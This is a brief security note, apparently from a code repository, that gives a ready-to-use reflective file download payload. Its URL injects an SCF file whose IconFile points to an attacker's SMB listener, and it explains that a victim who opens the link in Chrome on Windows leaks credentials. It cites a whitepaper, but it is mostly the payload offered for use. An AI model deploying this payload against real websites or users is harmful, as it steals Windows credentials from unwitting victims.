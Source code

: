 ### Details

Below payload can be used on a website which is vulnerable to reflective file download.

http[s]://vulnerablesite.com/vulnerablelink/filename.scf?prefix=%0A[SHELL]%0AIconFile=\\\\<SMB_LISTENER_IP_ADDRESS>\\<RANDOM_FILE>&format=jsonp

To execute this payload, Victim must visit the link with Google Chrome running on Microsoft Windows to capture the credentials.

### Reference:
https://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf
